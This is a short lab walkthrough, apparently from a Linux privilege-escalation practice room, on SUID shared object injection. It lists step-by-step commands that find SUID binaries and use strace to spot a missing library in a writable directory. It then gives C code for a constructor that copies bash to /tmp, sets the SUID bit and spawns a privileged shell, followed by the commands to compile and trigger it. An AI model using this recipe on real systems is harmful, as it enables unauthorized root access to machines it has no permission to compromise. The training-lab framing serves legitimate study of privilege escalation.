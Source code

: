 


## SUID (Shared Object Injection) 


1. In command prompt type: `find / -type f -perm -04000 -ls 2>/dev/null`
2. From the output, make note of all the SUID binaries.
3. In command line type:
`strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"`
4. From the output, notice that a .so file is missing from a writable directory.


**Exploitation**

5. In command prompt type: `mkdir /home/user/.config`
6. In command prompt type: `cd /home/user/.config`
7. Open a text editor and type:

```C++
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

8. Save the file as libcalc.c
9. In command prompt type:
`gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c`
10. In command prompt type: `/usr/local/bin/suid-so`
11. In command prompt type: `id`


![SUID-Shared](/Images/linux_privesc_arena/suid-shared.png)
